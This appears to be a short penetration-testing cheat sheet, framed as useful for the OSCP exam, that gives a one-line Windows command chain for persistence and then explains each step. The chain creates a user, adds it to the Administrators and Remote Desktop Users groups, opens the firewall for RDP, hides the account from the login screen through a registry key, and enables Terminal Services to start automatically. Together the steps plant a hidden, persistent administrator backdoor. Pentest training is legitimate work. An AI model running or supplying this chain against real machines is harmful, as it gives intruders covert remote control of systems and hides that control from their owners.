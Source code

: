 # Enable RDP in one line CMD

This is very helpful during OSCP.

## CMD

net user /add <Username> <Password> && net localgroup administrators <Username> /add & net localgroup "Remote Desktop Users" <Username> /add & netsh advfirewall firewall set rule group="remote desktop" new enable=Yes & reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v <Username> /t REG_DWORD /d 0 & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f & sc config TermService start= auto

### Explain

####Adding User: 
net user /add <<Username>> <<Password>>

#### Adding User in Administrator Group:
net localgroup administrators <<Username>> /add

#### Adding user in Remote Desktop Users:
net localgroup "Remote Desktop Users" <<Username>> /add

#### Opening Port in Local Firewall:
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

#### Hiding User from Window Login Screen:
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v <<Username>> /t REG_DWORD /d 0 

#### Setting Terminal Service in Startup Mode:
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v TSEnabled /t REG_DWORD /d 1 /f

#### Setting Terminal Service in Auto Mode:
sc config TermService start= auto 
